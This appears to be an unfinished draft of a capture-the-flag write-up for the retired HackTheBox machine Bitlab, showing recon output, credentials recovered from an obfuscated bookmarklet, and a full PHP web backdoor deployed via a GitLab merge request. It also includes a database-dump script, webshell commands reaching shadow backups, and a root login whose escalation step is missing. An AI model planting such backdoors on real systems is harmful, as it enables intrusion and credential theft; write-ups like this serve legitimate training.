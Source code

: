 Title:HTB: Bitlab
Date: xx-xx-2020 12:30
category:security
tags:security, boot2root, HTB, gitlab
meta:security, boot2root, HTB, gitlab

<img class="align-left" src="/media/2020.xx/bitlab_card.png" alt="Bitlab Card" width="262">

This box is a writeup about a retired HacktheBox machine:
[Bitlab](https://www.hackthebox.eu/home/machines/profile/207).
This box is rated as a medium box. It implies 

<!-- PELICAN_END_SUMMARY -->

[TOC]

# Recon

Let us start as always by a `nmap` scan. Only the ports 22 (SSH) and 80 (HTTP)
are open:

    :::text
    # Nmap 7.80 scan initiated Mon Nov 25 13:23:49 2019 as: nmap -p- -oA nmap 10.10.10.114
    Nmap scan report for 10.10.10.114
    Host is up (0.099s latency).
    Not shown: 65533 filtered ports
    PORT   STATE SERVICE
    22/tcp open  ssh
    80/tcp open  http

    # Nmap done at Mon Nov 25 13:26:14 2019 -- 1 IP address (1 host up) scanned in 145.18 seconds

# Web

The home page is a [gitlab](https://about.gitlab.com/) home page.

We run a [dirb](https://tools.kali.org/web-applications/dirb) against the home
page and discover a few pages and directory.


```
-----------------
DIRB v2.22    
By The Dark Raver
-----------------

OUTPUT_FILE: dirb
START_TIME: Mon Nov 25 13:28:27 2019
URL_BASE: http://10.10.10.114/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://10.10.10.114/ ----
+ http://10.10.10.114/explore (CODE:200|SIZE:13675)
+ http://10.10.10.114/favicon.ico (CODE:301|SIZE:169)
+ http://10.10.10.114/groups (CODE:302|SIZE:100)
==> DIRECTORY: http://10.10.10.114/help/
==> DIRECTORY: http://10.10.10.114/profile/
+ http://10.10.10.114/projects (CODE:302|SIZE:93)
+ http://10.10.10.114/public (CODE:200|SIZE:13755)
+ http://10.10.10.114/robots.txt (CODE:200|SIZE:2153)
+ http://10.10.10.114/root (CODE:200|SIZE:16026)
+ http://10.10.10.114/Root (CODE:302|SIZE:90)
+ http://10.10.10.114/search (CODE:200|SIZE:13366)
+ http://10.10.10.114/snippets (CODE:302|SIZE:102)
+ http://10.10.10.114/test (CODE:302|SIZE:91)

---- Entering directory: http://10.10.10.114/help/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

---- Entering directory: http://10.10.10.114/profile/ ----
+ http://10.10.10.114/profile/index.php (CODE:200|SIZE:4184)

-----------------
END_TIME: Mon Nov 25 13:44:24 2019
DOWNLOADED: 9224 - FOUND: 12
```

The `profile` URL give us access to some developer ugly profile:

![Clave profile](/media/2020.xx/bitlab_5.png)

When looking at the main page we can see an help link linking to a directory
listing page linking to a bookmarks page with a few bookmarks. 

![help link](/media/2020.xx/bitlab_1.png)
![Directory listing](/media/2020.xx/bitlab_2.png)
![Last bookmark](/media/2020.xx/bitlab_3.png)

The last link as the following value.

```
javascript:(function(){%20var%20_0x4b18=["\x76\x61\x6C\x75\x65","\x75\x73\x65\x72\x5F\x6C\x6F\x67\x69\x6E","\x67\x65\x74\x45\x6C\x65\x6D\x65\x6E\x74\x42\x79\x49\x64","\x63\x6C\x61\x76\x65","\x75\x73\x65\x72\x5F\x70\x61\x73\x73\x77\x6F\x72\x64","\x31\x31\x64\x65\x73\x30\x30\x38\x31\x78"];document[_0x4b18[2]](_0x4b18[1])[_0x4b18[0]]=%20_0x4b18[3];document[_0x4b18[2]](_0x4b18[4])[_0x4b18[0]]=%20_0x4b18[5];%20})()
```

We use an [online JavaScript Deobfuscator and Unpacker](https://lelinhtinh.github.io/de4js/)
to get the link "true" value:

```
javascript: (function () {
    % 20
    var % 20 _0x4b18 = ["value", "user_login", "getElementById", "clave", "user_password", "11des0081x"];
    document[_0x4b18[2]](_0x4b18[1])[_0x4b18[0]] = % 20 _0x4b18[3];
    document[_0x4b18[2]](_0x4b18[4])[_0x4b18[0]] = % 20 _0x4b18[5]; % 20
})()
```

The credentials "clave" and "11des0081x" allow us to connect to the gitlab. We
have access to two projects owned by the "administrator" user: "Profile" and
"Deployer".

![Connected user](/media/2020.xx/bitlab_4.png)

The first project is the developer profile seen earlier. The second project is
the code use to deploy the first project using the following PHP syntax:

    :::PHP
    if ($repo=='Profile' && $branch=='master' && $event=='merge_request' && $state=='merged') {
        echo shell_exec('cd ../profile/; sudo git pull'),"\n";
    }

We can add a PHP simple reverse shell (the one in
`/usr/share/webshells/php/simple-backdoor.php` on Kali), make a pull request and
merge it from the gitlab interface.

    :::PHP
    <!-- Simple PHP backdoor by DK (http://michaeldaw.org) -->

    <?php

    if(isset($_REQUEST['cmd'])){
            echo "<pre>";
            $cmd = ($_REQUEST['cmd']);
            system($cmd);
            echo "</pre>";
            die;
    }

    ?>

    Usage: http://target.com/simple-backdoor.php?cmd=cat+/etc/passwd

    <!--    http://michaeldaw.org   2006    -->

![Adding some PHP file](/media/2020.xx/bitlab_6.png)

We then use the "Deployer" by accessing the `http://10.10.10.114/deployer/` URL
and we can access our webshell with the `http://10.10.10.114/profile/cmd2.php`
URL.

We can also deploy a reverseshell and get a shell as `www-data`
We can use `python -c 'import pty; pty.spawn("/bin/sh")'` in order to get a
interactive shell.

$ sudo -l
sudo -l
Matching Defaults entries for www-data on bitlab:
    env_reset, exempt_group=sudo, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bitlab:
    (root) NOPASSWD: /usr/bin/git pull



## Postgresql

By exploring more the gitlab we can found a "snippet" name "Postgresql" containg
the base of PHP script to connect to the database.

    :::PHP
    <?php
    $db_connection = pg_connect("host=localhost dbname=profiles user=profiles password=profiles");
    $result = pg_query($db_connection, "SELECT * FROM profiles");

We complete the script to display the database content.

    :::PHP
    <?php
    $db_connection = pg_connect("host=localhost dbname=profiles user=profiles password=profiles");
    $result = pg_query($db_connection, "SELECT * FROM profiles");
    $numrows = pg_numrows($result);
    for($i = 0; $i < $numrows; $i++) 
    {
        $row = pg_fetch_array($result, $i);
        echo "id: " . $row[0];
        echo "user: " . $row[1];
        echo "pass: " . $row[2];
    }
    ?>

We the deploy it and execut it. The content of the databse is
`id: 1user: clavepass: c3NoLXN0cjBuZy1wQHNz==`
Decoding the base64 password give an error as the pading is wrong. 

```
echo -ne 'c3NoLXN0cjBuZy1wQHNz' | base64 -d
ssh-str0ng-p@ss
```

The decoded password do not work. But using the base64 password is working. We
can then connect to the box as clave using SSH and get the user flag.

```
sh clave@10.10.10.114
clave@10.10.10.114's password: 
Last login: Tue Nov 26 07:17:40 2019 from 10.10.15.35
clave@bitlab:~$ ls
RemoteConnection.exe  user.txt
clave@bitlab:~$ cat user.txt 
1e3fd8<redacted>
```

http://10.10.10.114/profile/cmd2.php?cmd=ls%20../../../backups
alternatives.tar.0
alternatives.tar.1.gz
alternatives.tar.2.gz
dpkg.arch.0
dpkg.arch.1.gz
dpkg.arch.2.gz
dpkg.arch.3.gz
dpkg.diversions.0
dpkg.diversions.1.gz
dpkg.diversions.2.gz
dpkg.diversions.3.gz
dpkg.statoverride.0
dpkg.statoverride.1.gz
dpkg.statoverride.2.gz
dpkg.statoverride.3.gz
dpkg.status.0
dpkg.status.1.gz
dpkg.status.2.gz
dpkg.status.3.gz
group.bak
gshadow.bak
passwd.bak
shadow.bak



root@kalili:~# ssh root@10.10.10.114 
root@10.10.10.114's password: 
Last login: Tue Nov 26 10:41:25 2019 from 10.10.15.142
root@bitlab:~# cat /root/root.txt
8d4cc13<redacted>
